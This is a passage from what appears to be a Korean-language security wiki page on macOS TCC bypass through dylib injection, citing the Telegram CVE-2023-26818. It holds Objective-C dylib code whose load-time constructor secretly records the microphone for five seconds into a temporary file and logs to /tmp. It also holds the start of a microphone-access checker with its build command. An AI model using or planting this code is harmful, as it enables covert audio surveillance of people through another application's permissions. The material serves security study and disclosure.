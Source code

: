 ```objectivec
NSString *outputFilePath = [NSTemporaryDirectory() stringByAppendingPathComponent:@"recording.m4a"];
NSURL *outputFileURL = [NSURL fileURLWithPath:outputFilePath];
[self.audioFileOutput startRecordingToOutputFileURL:outputFileURL recordingDelegate:self];
NSLog(@"Recording started");
}

- (void)stopRecording {
[self.audioFileOutput stopRecording];
[self.captureSession stopRunning];
NSLog(@"Recording stopped");
}

#pragma mark - AVCaptureFileOutputRecordingDelegate

- (void)captureOutput:(AVCaptureFileOutput *)captureOutput
didFinishRecordingToOutputFileAtURL:(NSURL *)outputFileURL
fromConnections:(NSArray<AVCaptureConnection *> *)connections
error:(NSError *)error {
if (error) {
NSLog(@"Recording failed: %@", [error localizedDescription]);
} else {
NSLog(@"Recording finished successfully. Saved to %@", outputFileURL.path);
}
NSLog(@"Saved to %@", outputFileURL.path);
}

@end

__attribute__((constructor))
static void myconstructor(int argc, const char **argv) {

freopen("/tmp/logs.txt", "a", stderr);
AudioRecorder *audioRecorder = [[AudioRecorder alloc] init];

[audioRecorder startRecording];
[NSThread sleepForTimeInterval:5.0];
[audioRecorder stopRecording];

[[NSRunLoop currentRunLoop] runUntilDate:[NSDate dateWithTimeIntervalSinceNow:1.0]];
fclose(stderr); // Close the file stream
}
```
{% endtab %}

{% tab title="ObjectiveC - Check" %}
앱이 마이크에 접근할 수 있는지 확인합니다.
```objectivec
#import <Foundation/Foundation.h>
#import <AVFoundation/AVFoundation.h>

// From https://vsociety.medium.com/cve-2023-26818-macos-tcc-bypass-with-telegram-using-dylib-injection-part1-768b34efd8c4
// gcc -framework Foundation -framework AVFoundation -dynamiclib MicTest.m -o MicTest.dylib

@interface MicrophoneAccessChecker : NSObject
+ (BOOL)hasMicrophoneAccess;
@end
@implementation MicrophoneAccessChecker
+ (BOOL)hasMicrophoneAccess {
AVAuthorizationStatus status = [AVCaptureDevice authorizationStatusForMediaType:AVMediaTypeAudio];
if (status == AVAuthorizationStatusAuthorized) {
NSLog(@"[+] Access to microphone granted.");
return YES;
```
